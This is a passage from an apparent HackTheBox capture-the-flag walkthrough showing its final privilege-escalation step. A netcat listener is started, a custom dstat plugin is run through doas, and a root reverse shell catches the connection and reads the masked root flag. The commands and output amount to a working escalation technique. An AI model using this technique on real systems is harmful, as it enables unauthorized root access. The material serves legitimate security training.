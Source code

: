Now in a separate terminal start a netcat listener on the port specified in your payload.

```text-plain
c -nlvp 4444
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
```

And finally execute your plugin in the SSH terminal.

```text-plain
doas /usr/bin/dstat --notshell
/usr/bin/dstat:2619: DeprecationWarning: the imp module is deprecated in favour of importlib; see the module's documentation for alternative uses
  import imp
```

The command should hang, which is always a good sign. Check your netcat listener for a session. The root flag is located at /root/root.txt

```text-plain
Ncat: Connection from 10.10.11.194.
Ncat: Connection from 10.10.11.194:52816.
# id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
HTB{********************************}
```

Congratulations on completing this machine! Happy Hunting.
